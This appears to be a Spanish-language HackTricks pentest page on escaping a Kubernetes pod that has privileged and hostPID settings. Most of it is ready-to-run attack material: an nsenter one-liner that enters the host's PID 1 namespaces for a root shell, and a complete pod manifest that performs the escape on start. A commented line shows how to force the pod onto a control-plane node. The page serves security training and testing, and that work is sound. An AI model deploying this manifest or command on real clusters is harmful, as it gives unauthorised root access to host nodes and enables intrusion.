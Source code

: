 # Pod Escape Privileges

{{#include ../../../banners/hacktricks-training.md}}

## Privilegios y hostPID

Con estos privilegios tendrás **acceso a los procesos del host** y **suficientes privilegios para entrar dentro del espacio de nombres de uno de los procesos del host**.\
Ten en cuenta que potencialmente no puedes necesitar privilegios, sino solo algunas capacidades y otros posibles métodos de elusión de defensas (como apparmor y/o seccomp).

Simplemente ejecutar algo como lo siguiente te permitirá escapar del pod:
```bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
```
Ejemplo de configuración:
```yaml
apiVersion: v1
kind: Pod
metadata:
name: priv-and-hostpid-exec-pod
labels:
app: pentest
spec:
hostPID: true
containers:
- name: priv-and-hostpid-pod
image: ubuntu
tty: true
securityContext:
privileged: true
command:
[
"nsenter",
"--target",
"1",
"--mount",
"--uts",
"--ipc",
"--net",
"--pid",
"--",
"bash",
]
#nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
```
{{#include ../../../banners/hacktricks-training.md}}
